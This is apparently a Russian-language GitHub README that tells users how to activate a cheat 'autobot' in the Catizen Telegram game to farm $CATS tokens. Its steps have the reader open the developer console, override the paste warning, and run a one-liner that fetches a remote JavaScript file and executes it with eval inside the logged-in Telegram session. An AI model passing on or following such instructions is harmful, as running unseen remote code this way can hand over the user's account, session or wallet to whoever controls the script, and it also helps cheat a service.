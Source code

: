 # Инструкция по использованию взлома Автобота в игре Catizen
##### По всем вопросам пишите мне в личку в Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Откройте десктопный Telegram-клиент.
#### 2. Перейдите в Settings - Advanced - Experimental Settings.
#### 3. Пролистайте вниз, найдите опцию Enable webview expecting, включите её.
#### 4. Перезагрузите клиент Telegram.
#### 5. Зайдите в Catizen, кликните по игровому полю, где играются котики.
#### 6. Нажмите комбинацию клавиш Ctrl + Shift + i, откроется консоль разработчика.
#### 7. Разрешите ввод в консоль: введите что-то и отправьте в консоль, система сама подскажет что вписать, чтобы разрешить ввод.
#### 8. Вставьте код ниже и отправьте
```javascript
var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rahavitski/cats-stuff/RUSSIAN/Catizen-script-v1.1.js'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Подождите пару секунд, переходите в игру, включайте Автобота и фармите $CATS!
#### 10. Теперь каждый раз при запуске игры необходимо повторять шаги с 5 по 9, чтобы активировать Автобота.
